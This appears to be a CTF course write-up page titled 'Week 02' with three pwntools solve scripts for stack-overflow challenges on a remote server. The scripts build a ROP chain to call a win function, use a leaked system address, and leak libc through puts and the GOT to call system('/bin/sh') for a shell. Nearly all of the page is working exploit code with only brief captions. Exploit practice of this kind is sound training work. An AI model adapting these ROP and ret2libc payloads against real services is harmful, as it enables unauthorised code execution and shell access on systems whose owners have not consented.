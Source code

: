 +++
title = "Week 02"
weight = 1
slug="week-02"
description = "ROPchain modify registers and call function, use leaked system address to call system('/bin/sh'), leak libc using puts and call system('/bin/sh')"
+++

# args
ROPchain to modify registers and call function

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7010)

buf = b'A'*40

win = p64(0x401142)

rdi_ret = p64(0x40121b)

rsi_r15_ret = p64(0x401219)

payload = buf + rdi_ret + p64(0xAAAA) + rsi_r15_ret + p64(0xBBBB) + p64(0xBBBB) + win

p.sendline(payload)

p.interactive()
```

# leaked
Use leaked system address to call system("/bin/sh")

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7001)

leak = p.recvuntil(b',')
system = p64(int(leak[-15:-1].decode(), 16))

buf = b'A'*40

bin_sh = p64(0x402008)

rdi_ret = p64(0x40122b)

p.sendline(buf + rdi_ret + bin_sh + system)

p.interactive()
```

# leakme
Leak libc using puts and call system("/bin/sh")

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7002)

exe = ELF("./leakme")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

puts_plt = p64(0x401030)
puts_got = p64(exe.got['puts'])

bin_sh = p64(0x402008)

rdi_ret = p64(0x4011fb)

vuln = p64(0x401142)

buf = b'A'*40

p.recv()

payload = buf + rdi_ret + puts_got + puts_plt + vuln
p.sendline(payload)

leak = p.recvline()

base = u64(leak.rstrip().ljust(8, b'\x00')) - libc.symbols['puts']

system = p64(base + libc.symbols['system'])

payload2 = buf + rdi_ret + bin_sh + system

p.sendline(payload2)

p.interactive()
```
